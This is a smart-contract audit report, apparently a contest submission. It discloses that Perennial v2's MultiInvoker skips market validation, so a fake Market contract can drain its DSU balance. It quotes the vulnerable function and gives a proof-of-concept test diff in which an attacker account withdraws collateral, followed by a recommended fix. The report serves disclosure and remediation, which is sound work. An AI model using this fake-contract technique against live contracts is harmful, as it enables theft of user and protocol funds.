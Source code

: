 Faithful Burlap Boa

high

# DSU token balance of MultiInvoker contract can be drained by anyone
## Summary
Due to a missing `marketFactory.instances(market)` check when performing a `PerennialAction.UPDATE_POSITION` via [MultiInvoker.invoke(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L108-L162), **anyone** can drain the whole `DSU` token balance by providing a fake `Market` contract. 

## Vulnerability Detail
Although, the `MultiInvoker` contract is - as its name says - an invoker contract, it can hold a **non-zero** balance of `DSU` tokens due to its market & vault update mechanism, which is **mostly** handled correctly see [L204](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L204) and [L301](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L301). Moreover, such a non-zero balance state requires a validity check of markets/vaults before giving token allowance to them, see [MultiInvoker._approve(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L236-L242).

However, when calling [MultiInvoker ._update(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L164-L185)
```solidity
    function _update(
        IMarket market,
        UFixed6 newMaker,
        UFixed6 newLong,
        UFixed6 newShort,
        Fixed6 collateral,
        bool wrap
    ) internal {
        // collateral is transferred from this address to the market, transfer from msg.sender to here
        if (collateral.sign() == 1) _deposit(collateral.abs(), wrap);

        market.update(msg.sender, newMaker, newLong, newShort, collateral, false);

        // collateral is transferred from the market to this address, transfer to msg.sender from here
        if (collateral.sign() == -1) _withdraw(msg.sender, collateral.abs(), wrap);
    }
```
by performing a `PerennialAction.UPDATE_POSITION` via [MultiInvoker.invoke(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L108-L162), the provided `IMarket market` contract is **not validated** using  `marketFactory.instances(market)`, therefore one can create a fake `Market` contract that does nothing on `market.update(...)`.

## Impact
As a cosequence, an attacker can invoke a `PerennialAction.UPDATE_POSITION` using a fake `Market` contract in order to **withdraw** an arbitrary `collateral` amount of `DSU` tokens, see [MultiInvoker._withdraw(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L256-L266), which leads to loss of funds for the protocol.
Furthermore, one can specify to unwrap the `DSU` tokens and therefore withdraw `USDC` instead.  

Note that this vulnerability also exists on `PerennialAction.LIQUIDATE`, see [MultiInvoker._liquidate(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L218-L234), but the attack path is easier using the discussed way.

## Code Snippet

The following PoC modifies the existing test case "withdraws collateral" to demonstrate the above attack path by having an **unrelated** attacker account with a fake `Market` contract withdraw `DSU` tokens from the `MultiInvoker` contract.  

Just apply the *diff* below and run the test case in `perennial-extensions` with `npx hardhat test test/unit/MultiInvoker/MultiInvoker.test.ts`:
```diff
diff --git a/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts b/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
index 9c42c49..f165679 100644
--- a/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
+++ b/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
@@ -40,9 +40,11 @@ use(smock.matchers)
 describe('MultiInvoker', () => {
   let owner: SignerWithAddress
   let user: SignerWithAddress
+  let attacker: SignerWithAddress // create unrelated account for attacker
   let usdc: FakeContract<IERC20>
   let dsu: FakeContract<IERC20>
   let market: FakeContract<IMarket>
+  let marketAttacker: FakeContract<IMarket> // fake market contract for attack
   let vault: FakeContract<IVault>
   let marketOracle: FakeContract<IOracleProvider>
   let invokerOracle: FakeContract<AggregatorV3Interface>
@@ -55,7 +57,7 @@ describe('MultiInvoker', () => {
   let multiInvoker: MultiInvoker
 
   const multiInvokerFixture = async () => {
-    ;[owner, user] = await ethers.HRE.ethers.getSigners()
+    ;[owner, user, attacker] = await ethers.HRE.ethers.getSigners()
   }
 
   beforeEach(async () => {
@@ -65,6 +67,7 @@ describe('MultiInvoker', () => {
     dsu = await smock.fake<IERC20>('IERC20')
     reward = await smock.fake<IERC20>('IERC20')
     market = await smock.fake<IMarket>('IMarket')
+    marketAttacker = await smock.fake<IMarket>('IMarket')
     vault = await smock.fake<IVault>('IVault')
     marketOracle = await smock.fake<IOracleProvider>('IOracleProvider')
     invokerOracle = await smock.fake<AggregatorV3Interface>('AggregatorV3Interface')
@@ -104,6 +107,7 @@ describe('MultiInvoker', () => {
     marketOracle.latest.returns(oracleVersion)
 
     usdc.transferFrom.whenCalledWith(user.address).returns(true)
+    // do NOT register 'marketAttacker' as valid market, because only the owner can do this
     marketFactory.instances.whenCalledWith(market.address).returns(true)
     vaultFactory.instances.whenCalledWith(vault.address).returns(true)
 
@@ -120,12 +124,16 @@ describe('MultiInvoker', () => {
     const fixture = async () => {
       vaultUpdate = { vault: vault.address }
       dsu.transferFrom.whenCalledWith(user.address, multiInvoker.address, collateral.mul(1e12)).returns(true)
-      dsu.transfer.whenCalledWith(user.address, dsuCollateral).returns(true)
+      // since DSU is a mock ERC20 token, we need to mock transfers to the attacker too
+      dsu.transfer.whenCalledWith(attacker.address, dsuCollateral).returns(true)
       usdc.transferFrom.whenCalledWith(user.address, multiInvoker.address, collateral).returns(true)
       usdc.transfer.whenCalledWith(user.address, collateral).returns(true)
 
       vault.update.returns(true)
       market.update.returns(true)
+
+      // fake attacker market needs to implement 'update' function that does nothing
+      marketAttacker.update.returns(true)
     }
 
     beforeEach(async () => {
@@ -166,13 +174,13 @@ describe('MultiInvoker', () => {
       expect(dsu.transfer).to.not.have.been.called
     })
 
-    it('withdraws collateral', async () => {
-      const a = helpers.buildUpdateMarket({ market: market.address, collateral: collateral.mul(-1) })
+    it.only('attacker withdraws collateral', async () => {
+      const a = helpers.buildUpdateMarket({ market: marketAttacker.address, collateral: collateral.mul(-1) })
 
-      await expect(multiInvoker.connect(user).invoke(a)).to.not.be.reverted
+      await expect(multiInvoker.connect(attacker).invoke(a)).to.not.be.reverted
 
-      expect(dsu.transfer).to.have.been.calledWith(user.address, dsuCollateral)
-      expect(market.update).to.have.been.calledWith(user.address, '0', '0', '0', collateral.mul(-1), false)
+      expect(dsu.transfer).to.have.been.calledWith(attacker.address, dsuCollateral)
+      expect(marketAttacker.update).to.have.been.calledWith(attacker.address, '0', '0', '0', collateral.mul(-1), false)
     })
 
     it('withdraws and unwraps collateral', async () => {

```

## Tool used
Manual Review

## Recommendation
Always require `Market` and `Vault` instances to be valid (via their respective factories). A working example is already given by [MultiInvoker._approve(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L236-L242).
